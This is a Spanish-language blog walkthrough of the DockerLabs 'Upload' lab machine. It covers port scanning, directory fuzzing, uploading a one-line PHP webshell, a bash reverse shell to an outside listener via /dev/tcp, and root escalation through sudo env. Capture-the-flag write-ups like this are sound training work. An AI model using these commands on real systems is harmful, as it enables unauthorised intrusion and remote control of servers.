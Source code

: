 ```yaml
---
layout: post
title: "Upload"
date: 2024-06-29 12:20:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Upload </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/upload/host.png){:.margin}

**1\.** Descubrimos puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/nmap.png){:.margin}

**2\.** En la web tenemos una subida de archivos.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/80.png){:.margin}

**3\.** Hago fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directoy-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/upload/gobuster.png){:.margin}

**4\.** En el php tenemos la misma subida de archivos, y en uploads supongo que se almacena todo lo subido.

`http://172.17.0.2/upload.php`

`http://172.17.0.2/uploads/`

![img](/notas/public/img/dockerlabs/upload/uploadphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/upload.png){:.margin}

**5\.** Creo un php para subirlo y obtener una webshell, nuestro php lo encontramos en uploads.

`echo '<?php system($_GET["cmd"]);?>' > shell.php`

![img](/notas/public/img/dockerlabs/upload/shellphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/shellupload.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/uploads.png){:.margin}

**6\.** Me pongo en escucha con nc para recibir la reverse shell.

`nc -nlvp 4000`

`http://172.17.0.2/uploads/shell.php?cmd= bash -c "bash -i >%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/upload/80reverse.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/ncok.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/upload/sudol.png){:.margin}

**8\.** Escalando privilegios a root, busco en [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo) sobre el binario.

`sudo env /bin/sh`

![img](/notas/public/img/dockerlabs/upload/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>